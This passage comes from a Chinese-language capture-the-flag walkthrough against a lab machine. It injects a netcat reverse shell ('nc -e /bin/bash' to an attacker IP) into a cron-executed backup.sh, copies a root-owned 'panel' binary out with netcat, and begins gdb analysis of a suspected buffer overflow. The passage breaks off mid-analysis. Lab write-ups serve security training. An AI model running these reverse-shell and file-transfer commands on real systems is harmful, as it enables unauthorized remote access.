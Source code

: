 ```
echo "nc -e /bin/bash 192.168.182.149 1234" > backup.sh
```

查看到已经成功写入了...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNq0snS4aGhbkfluswTSh7CKvLcSxGicdov5SPRPJj1ibCib5fCZVSfICxd9cH1wXgtyPp4t3dicMJPlg/640?wx_fmt=png)

等了几分钟后... 发现成功连接... 了...  这是自动执行的脚本...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNq0snS4aGhbkfluswTSh7C4uOPGNR6iapQpHt1FIhFTIMYskImyrersmjbfWcQNRAzUrQmlURJjVw/640?wx_fmt=png)

成功进入了 demon 用户...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNq0snS4aGhbkfluswTSh7CdTok5eWx505z65Eib3UEbyGKz4LSYsynoVVx6epj5WKTLx4FEiciaf1zw/640?wx_fmt=png)

发现具有 root 身份运行的 daemon 目录...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNq0snS4aGhbkfluswTSh7CXhibC2DjsLUibegbmZ84Fxyf4SzDmyEVib5tx30CMiacFEoFB5h4wxcFBw/640?wx_fmt=png)

发现 panel 应用程序，查看...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNq0snS4aGhbkfluswTSh7CTAMdibHvT0J5aXVfbNMY2giarjvaB9qiaX340SN2jnnJm4v8rxwsdN7JA/640?wx_fmt=png)

执行发现这是一个不完整的壳... 应该又存在缓冲区溢出... 没装 gdb....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNq0snS4aGhbkfluswTSh7CEJwVddU8AHib0v9N4DNfSRe3DGvib7Ogug0sCnWGLEnqh2uozcbEXG6A/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNq0snS4aGhbkfluswTSh7CHsl1NZMGgBtZsHnkS6fkpBOUUDukCey5ZnlUIla9xFfr7L39dKczpA/640?wx_fmt=png)

```
nc -nlvp 1111 > panel
nc 192.168.182.149 1111 < panel
```

发现这上面装了 NC，这边利用 nc 把 panel 程序放到 kali 上分析...

这边过了 7~8 小时... 因为我是 32 位的 kali 打开 panel 有问题... 一直报错，用 IDA 在 windows10 上打开也一直报错.. 后来安装了 64 位的 kali 后使用就能打开了.. 看来这个靶机的 panel.exe 限制了...

继续！！！（在 64 位 kali 上继续渗透）

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNq0snS4aGhbkfluswTSh7CcHBcmcJhxhH1RGoibpzeXwh2B3GhnoCLqqFeD9kfvB1vLWYT24MlShg/640?wx_fmt=png)

这边用 gdb 正常打开... 这边前面运行已经知道这是个 31337 存在的不完整外壳是同一程序.. 这边绑定下 31337 然后进行分析...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNq0snS4aGhbkfluswTSh7CNFrGEhibaxDVL1hmB4b0EYYbVBia4lRv3BtgrbqpqEqfMB7tgHrrhxicQ/640?wx_fmt=png)

```
(gdb) set follow-fork-mode child
(gdb) set detach-on-fork off
```

前面输入 31337 端口什么内容，就返回什么内容，这边绑定下 fork 来允许多个连接... 在 gdb 上设置为跟随 fork 并保持它们的绑定...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNq0snS4aGhbkfluswTSh7Cdg0EbOJVwLSduOlLt7pAic9TjYPOvcugwYzL5ONDSlvOWibl0AjTxWoQ/640?wx_fmt=png)
